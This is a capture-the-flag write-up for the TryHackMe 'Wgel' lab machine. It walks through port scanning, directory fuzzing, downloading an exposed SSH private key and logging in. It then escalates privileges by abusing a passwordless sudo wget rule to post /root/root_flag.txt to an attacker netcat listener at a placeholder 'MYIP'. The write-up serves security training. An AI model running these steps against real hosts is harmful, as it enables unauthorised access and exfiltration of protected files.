 # Wgel CTF

Macinne consist in access to the server and privsec via wget.

## Nmap scan

```bash
 $ nmap -sC -sV -T4 10.10.185.51
Nmap scan report for 10.10.185.51
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This machinne have the port 80 and 22.

## Enumeration

Open browser and access to the ip, is a Apache Default site.

![Apache Default Site](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20site.png)

If we go deep more and view the source code we look a name that is a possible Username.

![Source Code](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20code.png)

Then ** Jessie ** is a possible username.

## Fuzzing to the website

``` bash

$ gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/
```
The result is that and the sitemap directory catches my attention.
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
```
![Sitemap]()

Finding into the source code I didn't find anything.
<br>
We keep listing into the sitemap directory.

```bash
$  gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/sitemap
```
In this search i found ** /.ssh ** Directory.

![.ssh directory](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/ssh.png)

We Download the file and give the respective permissions

```bash
$ wget http://10.10.185.51/sitemap/.ssh/id_rsa ;chmod 600 id_rsa
```
## access to the ssh

As we already found the possible ssh information, we proceed to access to the ssh.

Username: Jessie
Password: id_rsa file

```bash
$ ssh -i id_rsa jessie@10.10.185.51   
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Successfully, we access to the machinne.

### user.txt

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt 

057c67131c3d5e42d***************
```
## Privsec

We Check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
We go to the [GTFObins](https://gtfobins.github.io/gtfobins/wget/#file-upload) File Upload

![Wget GTFO BINS](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/GTFO_wget.png)

We put our machine to listen with netcat and prepare to receive the packet.

### Our Machinne

```bash
$ nc -lvnp 5689
```
### Victim Machinne

```bash
$ sudo /usr/bin/wget --post-file /root/root_flag.txt MYIP:5689/
```

### Get root flag

```bash
nc -lvnp 5689                                                   13:03:32
listening on [any] 5689 ...
connect to [MYIP] from (UNKNOWN) [10.10.185.51] 58358
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: MYIP:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1da***************

```
